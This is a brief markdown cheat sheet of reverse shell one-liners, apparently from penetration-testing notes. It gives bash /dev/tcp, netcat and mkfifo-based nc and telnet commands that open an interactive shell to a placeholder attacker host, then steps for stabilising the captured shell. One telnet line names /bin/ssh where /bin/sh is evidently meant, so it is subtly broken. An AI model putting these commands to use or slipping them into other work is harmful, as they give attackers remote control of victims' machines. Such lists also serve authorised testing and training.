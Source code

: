 # Shells

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

```text
# netcat
nc (-c/-e) /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y

# telnet
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

### Stabilising shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

